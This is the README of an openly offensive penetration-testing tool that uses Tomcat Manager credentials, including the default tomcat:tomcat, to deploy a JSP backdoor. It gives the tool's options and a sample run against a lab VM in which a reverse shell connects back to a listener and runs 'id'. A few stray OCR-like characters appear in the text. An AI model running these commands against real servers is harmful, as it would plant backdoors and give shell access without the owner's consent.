 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    tomcatWarDeployer (v. 0.3.3)
    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server    Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit

  General options:
    -v, --verbose       Verbose mode.
    -s, --simulate      Simulate breach only, do not perform any offensive
                        actions.
    -G OUTFILE, --generate=OUTFILE
                        Generate JSP backdoor only and put it into specified
                        outfile path then exit. Do not perform any
                        connections, scannings, deployment and so on.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"

  Connection options:
    -H RHOST, --host=RHOST
                        Remote host for reverse tcp payload connection. When
                        specified, RPORT must be specified too. Otherwise,
                        bind tcp payload will be deployed listening on 0.0.0.0
    -p PORT, --port=PORT
                        Remote port for the reverse tcp payload when used with
                        RHOST or Local port if no RHOST specified thus acting
                        as a Bind shell endpoint.
    -u URL, --url=URL   Apache Tomcat management console URL. Default:
                        /manager/
    -t TIMEOUT, --timeout=TIMEOUT
                        Speciifed timeout parameter for socket object and
                        other timing holdups. Default: 10

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -T TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -v -x -p 4449 -H 192.168.56.102 192.168.56.100:8080

    tomcatWarDeployer (v. 0.3)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.102:4449.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpDhzo9I"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 547) (out= 253)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1595)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpDhzo9I
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpDhzo9I"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.102:4449
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Adding 'X-Pass: oHI9mPB0mOnZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.100:54251
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'oHI9mPB0mOnZ'
DEBUG: Connected with the shell: tomcat7@canyoupwnme
jh
tomcat7@canyoupwnme $ id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

tomcat7@canyoupwnme $ exit

```

The program will set-up a local listener for reverse-shell connection on the 192.168.56.102:4449 host (local host) as in the example above. Then, after invoking JSP Backdoor it will automatically connect with the local listener, resulting in shell being popped up. One can also skip `-H` parameter in order to go with _bind shell_ functionality, whereas rather then setting local listener - the program will go and connect with remotely listening bind-shell.
i
Finally, the above invocation will result in the following JSP application accessible remotely via WEB:

i
![JSP backdoor gui](screen1.png)


As one can see, there is password needlijked for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.


Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 

### TESTED
* Apache Tomcat/5.5.35
* Apache Tomcat/7.0.52
* Apache Tomcat/6.?


### CHANGELOG
* 19.07.16: Version 0.3: Added bind-shell & Reverse-shell functionality to provide user with direct access to the shell.
* 12.09.16: Version 0.3.3: Added support for Tomcat 5 interface


### TODO

* ~~Implement bind & reverse tcp payload functionality as well as some pty to interact with it~~
* ~~Finish implementing noconnect and connect functionality~~
* Implement sort of communication authentication and encryption/encoding, to prevent flow of plain-text data through the wire/ether
* Test it on ~~tomcat5~~, tomcat8

